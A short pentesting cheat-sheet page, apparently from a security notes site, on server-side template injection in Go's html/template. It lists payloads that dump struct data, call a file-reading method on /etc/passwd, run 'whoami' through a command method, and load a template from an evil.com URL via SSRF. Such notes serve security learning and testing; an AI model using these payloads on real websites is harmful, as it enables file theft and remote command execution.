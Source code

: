 ```yaml
---
title: Go SSTI
description: Golang html template is vulnerable to SSTI (Server Side Template Injection).
tags:
    - Web
refs:
    - https://www.onsecurity.io/blog/go-ssti-method-research/
date: 2023-10-14
draft: false
---
```


## Investigation

```go
import "html/template"

...

template.New("foo").Parse("{{ . }}")
```

If a website uses a web framework written in Golang and uses `html/template` module for parsing a template file or strings, we may inject this template with our custom template file/string.

<br />

## Exploit

Assume a web application defines `User` struct, `GetFile` method, and `ExecuteCmd` method.

```go
// `main.go` of target website

type User struct {
	Id string
	Name string
}

// Read contents of the file and output it.
func GetFile(filepath string) {
	...
}

// Execute system command.
func ExecuteCmd(cmd string) {
	...
}
```

### Payloads

```bash
{{ . }}

# Get the `User` struct values.
{{ .User }}

# Call the `GetFile` method to LFI.
{{ .GetFile "/etc/passwd" }}

# Call the `ExecuteCmd` method to RCE.
{{ .ExecuteCmd "whoami" }}
```

Also, if the website parses arbitrary template file, which concludes malicious payload like above, in some way e.g. SSRF(`https://example.com/?file=http://evil.com/template.txt`)

This file will be parsed by the website and lead SSTI.
